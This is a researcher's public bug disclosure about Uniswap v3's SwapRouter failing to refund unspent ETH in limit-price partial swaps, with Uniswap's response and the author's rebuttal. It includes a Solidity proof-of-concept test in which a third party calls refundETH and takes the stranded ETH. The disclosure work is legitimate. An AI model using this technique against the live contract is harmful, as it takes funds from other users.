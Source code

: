 ```yaml
---
title: "Public Bug Report: Uniswap's SwapRouter doesn't refund unspent ETH in partial swaps"
date: 2023-01-21T00:00:00+00:00
tags: [Bug Report, Uniswap, Blockchain]
---
```


In December 2022, I found a bug in Uniswap's `SwapRouter` contract. The bug allows users to lose funds, while interacting with the contract in the standard way. You don't really find critical and high severity bugs in projects like Uniswap, especially after they've run in production for several years. So I didn't really had high expectations and I was sure I wouldn't be awarded for the report. The bug looks real to me, and I wanted to figure out why would a project with high security standards leave it unfixed.

I submitted a bug report and after more than a month I received their response: they said the bug wasn't an issue, and everything worked as expected. I cannot agree with this 🙂 Thus I decided to disclose it publicly for some of you to learn something new and for more experienced security researches to decide whether the bug is real or not.

> tl;dr Here's the PoC: https://github.com/Jeiwan/uniswapv3-unrefunded-eth-poc

## Context
If you've ever used Uniswap, you know that the process is straightforward: you type in the amount of tokens you want to sell, click a button, sign a transaction, and it's done. I bet that, when you used Uniswap, you always sold an entire amount of tokens, but Uniswap also supports partial swaps: you can specify a limit price, which when reached, will interrupt the swap. As a result, only **a portion of the input token amount you specified will be consumed**. This is how it works:
1. The limit price is set via the [sqrtPriceLimitX96](https://github.com/Uniswap/v3-core/blob/05c10bf6d547d6121622ac51c457f93775e1df09/contracts/UniswapV3Pool.sol#L605) parameter of the [swap](https://github.com/Uniswap/v3-core/blob/05c10bf6d547d6121622ac51c457f93775e1df09/contracts/UniswapV3Pool.sol#L605) function.
1. Uniswap break a swap into multiple steps: on each step, it [swaps a portion of the input amount](https://github.com/Uniswap/v3-core/blob/05c10bf6d547d6121622ac51c457f93775e1df09/contracts/UniswapV3Pool.sol#L666-L674) and [re-calculates the input amount](https://github.com/Uniswap/v3-core/blob/05c10bf6d547d6121622ac51c457f93775e1df09/contracts/UniswapV3Pool.sol#L676-L682).
1. When the limit price is reached, it [stops swapping](https://github.com/Uniswap/v3-core/blob/05c10bf6d547d6121622ac51c457f93775e1df09/contracts/UniswapV3Pool.sol#L644).
1. After a swap is done, Uniswap [uses the calculated input and output amounts](https://github.com/Uniswap/v3-core/blob/05c10bf6d547d6121622ac51c457f93775e1df09/contracts/UniswapV3Pool.sol#L768-L770). What's important here is that it recalculates the input amount: if the swap was interrupted after reaching the limit price, **the input amount will be smaller that the one specified by the user**.

> To sum it up: when setting a limit price there's a chance that the input amount you specified during the `swap` call will be reduced, and you will eventually spend less tokens than you wanted initially.

Now, let's look at the [SwapRouter](https://github.com/Uniswap/v3-periphery/blob/6cce88e63e176af1ddb6cc56e029110289622317/contracts/SwapRouter.sol), which is the central contract of Uniswap–almost all interaction go through `SwapRouter`.

`SwapRouter` makes it easier for users to sell ETH: [the contract will wrap it for you](https://github.com/Uniswap/v3-periphery/blob/22bce38f7aca940212964bdfdf319b94ead9c3a8/contracts/base/PeripheryPayments.sol#L58-L61), you only need to send ETH along the call. For example, buying USDC for ETH via `SwapRouter` looks like this:
1. You call the [exactInputSingle](https://github.com/Uniswap/v3-periphery/blob/6cce88e63e176af1ddb6cc56e029110289622317/contracts/SwapRouter.sol#L115) or the [exactInput](https://github.com/Uniswap/v3-periphery/blob/6cce88e63e176af1ddb6cc56e029110289622317/contracts/SwapRouter.sol#L132) function, fill the parameters, and send some ETH long.
1. `SwapRouter` will [detect](https://github.com/Uniswap/v3-periphery/blob/22bce38f7aca940212964bdfdf319b94ead9c3a8/contracts/base/PeripheryPayments.sol#L58-L61) that you're selling ETH, will wrap it, and will send WETH to the pool.

> To sum it up: you're sending ETH, which is then wrapped to WETH by `SwapRouter`, and sold for USDC.

The final piece in the puzzle is how `SwapRouter` takes ERC20 tokens from users: it [pulls them](https://github.com/Uniswap/v3-periphery/blob/22bce38f7aca940212964bdfdf319b94ead9c3a8/contracts/base/PeripheryPayments.sol#L66-L67) after the pool has re-calculated input and output amounts:
1. a pool calculates amounts and calls the [uniswapV3SwapCallback](https://github.com/Uniswap/v3-core/blob/05c10bf6d547d6121622ac51c457f93775e1df09/contracts/UniswapV3Pool.sol#L773-L785);
1. in [the callback](https://github.com/Uniswap/v3-periphery/blob/6cce88e63e176af1ddb6cc56e029110289622317/contracts/SwapRouter.sol#L57-L84), the router pulls funds from the caller and sends them to the pool.

I.e. tokens are pulled from the user only **after a pool has re-calculated amounts**. But this works differently with ETH: ETH is sent with the call, **before** amounts are re-calculated–EVM doesn't allow to pull ETH from the caller.

I guess you already see the bug.

## Bug and Vulnerability
The bug is that `SwapRouter` doesn't refund unspent ETH. If you sell ETH and set a limit price and it's reached during the swap, then **the input amount will be reduced**, but you have already sent a bigger amount. The remaining amount will be left in the router.

The caller cannot know how much ETH will be spent by a swap: the Quoter contract, that's used to calculate swaps before executing them, [returns only the output amount, not the input one](https://github.com/Uniswap/v3-periphery/blob/6cce88e63e176af1ddb6cc56e029110289622317/contracts/lens/QuoterV2.sol#L127). Even if it had returned the input amount computed by a pool, the calculated input amount could have changed at the transaction execution time due to a price change, i.e. a slippage check would've been required on the input amount.

There's another subtle detail: when checking that the caller has sent enough ETH, [the contract uses the >= operation](https://github.com/Uniswap/v3-periphery/blob/22bce38f7aca940212964bdfdf319b94ead9c3a8/contracts/base/PeripheryPayments.sol#L58), which means it's ok if the caller sends more ETH than needed for a swap. I guess this breaks one of the invariants, e.g. "SwapRouter must never take more user funds than required for a swap". If the contract had used `=` instead, then all partial swaps would've failed. Which means refunding unspent ETH is the only solution to the problem.

Besides not refunding unspent ETH, `SwapRouter` allows anyone to [withdraw ETH from the contract](https://github.com/Uniswap/v3-periphery/blob/22bce38f7aca940212964bdfdf319b94ead9c3a8/contracts/base/PeripheryPayments.sol#L44-L46): anyone can withdraw the ETH `SwapRouter` hasn't returned to you after the swap–it may be a MEV bot or simply anyone who calls `refundETH` after your transaction.

## Exploit Scenario and a Proof of Concept
1. Alice wants to sell 1 ETH and buy some UNI. However, Alice wants her trade to be executed before the price X is reached.
2. Alice calls the `exactInputSingle` function of `SwapRouter`, sets the `sqrtPriceLimitX96` argument to the price X, and sends 1 ETH along with the transaction.
3. The router executes the swap via the ETH-UNI pool. The swap gets interrupted when the price X is reached.
4. Before reaching the price X, only 0.7 ETH of Alice were consumed to convert them to 100 UNI.
5. Alice receives 100 UNI while spending 1 ETH, the router contract keeps holding the remaining 0.3 ETH.
6. A MEV bot withdraws the 0.3 ETH by calling the `refundETH` function.

Here's a PoC ([repo with full code](https://github.com/Jeiwan/uniswapv3-unrefunded-eth-poc)):
```solidity
function testExploit() public {
    uint256 forkId = vm.createFork(vm.envString("ETH_RPC_URL"), 16454867);
    vm.selectFork(forkId);

    uint256 amountIn = 100 ether;

    vm.label(address(this), "user");
    vm.deal(address(this), amountIn);

    // Users sells 100 ETH to buy USDC. They have a limit price set.
    ExactInputSingleParams memory params = ExactInputSingleParams({
        tokenIn: weth,
        tokenOut: usdc,
        fee: 500,
        recipient: address(this),
        deadline: block.timestamp,
        amountIn: amountIn,
        amountOutMinimum: 0,
        sqrtPriceLimitX96: 1956260967287247098961477920037032 // (sqrtPrice before + sqrtPrice after) / 2
    });

    // Full input amount is sent along the call.
    router.exactInputSingle{value: amountIn}(params);

    // User has bought some USDC. However, the full input ETH amount wasn't used...
    assertEq(IERC20(usdc).balanceOf(address(this)), 81979.308775e6);

    // ... the remaining ETH is still in the Router contract.
    assertEq(address(router).balance, 50 ether);

    // A MEV bot steals the remaining ETH by calling the public refundETH function.
    address mev = address(0x31337);
    vm.label(mev, "mev");

    vm.prank(mev);
    router.refundETH();
    assertEq(address(mev).balance, 50 ether);
}
```

## Judging
### Uniswap's View
Uniswap says it works as expected. To not leave funds in `SwapRouter`, users should use the [MultiCall](https://github.com/Uniswap/v3-periphery/blob/6cce88e63e176af1ddb6cc56e029110289622317/contracts/base/Multicall.sol) functionality of the contract. `MultiCall` allows users to do multiple function calls in one transaction, thus Uniswap suggests that users should use `MultiCall` to swap tokens and call `refundETH` afterwards. They also said that the call to `refundETH` is made optional to reduce gas consumption for users.

Uniswap's JavaScript SDK also has [a check](https://github.com/Uniswap/universal-router-sdk/blob/106e53f232834f1cc8456963399f8295112ac405/src/entities/protocols/uniswap.ts#L98) that calls `refundETH` when there's a risk of leaving unspent funds in `SwapRouter`.

### My View
Despite the `MultiCall` functionality and the check in the JS SDK, my PoC is still valid 🙂 My PoC interacts with `SwapRouter` directly in a way it was designed and implemented. It may even do the `exactInputSingle` call via the multicall function, and it'll still be valid. `MultiCall`, in my view, is a different way of interacting with the contract, and even when it's used, a call to `refundETH` is not mandatory. So it still allows a loss of funds. Moreover, `MultiCall` is never used when trading ERC20 tokens, and, since `SwapRouter` makes selling ETH identical to selling an ERC20 token, users will simply never be aware of the requirement to use `MultiCall` to refund ETH.

## Conclusion
When I reported the bug I expected that Uniswap will say that it's a valid bug, they're aware of it, and they have strong reasons to not fix it. Surprisingly, they said it's not a bug at all. But if Uniswap says that users should always use `MultiCall` to refund unspent ETH, why doesn't `SwapRouter` do that for them? After all, the contract returns bought tokens to users–why can't it return unspent ETH? I guess answering this questions means confirming the vulnerability 🙂